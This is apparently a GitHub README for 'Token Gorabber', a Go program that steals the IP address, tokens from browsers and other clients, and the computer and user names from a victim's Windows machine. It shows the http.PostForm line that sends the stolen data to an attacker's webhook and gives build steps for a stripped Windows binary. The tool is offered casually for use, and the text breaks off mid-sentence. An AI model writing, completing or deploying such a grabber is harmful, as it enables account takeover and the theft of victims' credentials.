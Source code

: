 # Token Gorabber
## What is this?
This is a very simple token grabber written in Go that can grab:
- IP ADDRESS
- EVERY TOKEN FROM VARIOUS SOURCES LIKE BROWSER OR MANY CLIENTS
- COMPUTER'S NAME AND USER NAME
But just for now...

## How do i use it?
If you wanna get fun then you could follow those steps:
- Well, you could just simply download main.go
- Edit the file and replace ->THIS<-

```
_, err = http.PostForm("->THIS<-", url.Values{"content": {msg}})
```
by your webhook
- then compile it using
```
GOOS=windows go build -ldflags="-s -w" main.go
```

Or if you prefer, you could just 
